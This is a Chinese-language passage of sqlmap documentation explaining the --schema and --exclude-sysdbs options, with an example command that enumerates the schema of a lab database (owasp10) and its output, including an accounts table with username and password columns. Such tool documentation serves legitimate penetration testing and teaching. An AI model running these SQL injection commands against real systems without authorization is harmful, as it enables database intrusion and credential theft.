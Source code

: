 参数：--schema,--exclude-sysdbs

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上--exclude-sysdbs参数，将不会获取数据库自带的系统库内容。

MySQL例子：

$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+
